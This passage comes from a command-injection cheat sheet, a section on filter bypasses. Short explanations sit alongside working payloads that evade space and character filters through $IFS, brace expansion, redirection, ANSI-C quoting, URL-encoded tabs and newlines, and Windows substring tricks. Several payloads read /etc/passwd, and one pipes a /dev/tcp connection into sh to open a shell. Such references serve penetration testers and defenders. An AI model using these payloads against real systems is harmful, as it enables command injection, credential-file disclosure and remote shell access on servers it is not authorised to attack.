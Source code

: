 
## Filter Bypasses

### Bypass Without Space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a separator in commands like `ls`, `wget`; use `${IFS}` instead. 
  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```
* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.
  ```powershell
  {cat,/etc/passwd}
  ```
* Input redirection. The < character tells the shell to read the contents of the file specified. 
  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
* ANSI-C Quoting 
  ```powershell
  X=$'uname\x20-a'&&$X
  ```
* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.
  ```powershell
  ;ls%09-al%09/home
  ```
* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.
  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```


### Bypass With A Line Return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```


### Bypass With Backslash Newline

* Commands can be broken into parts by using backslash followed by a newline
  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```
* URL encoded form would look like this:
  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```
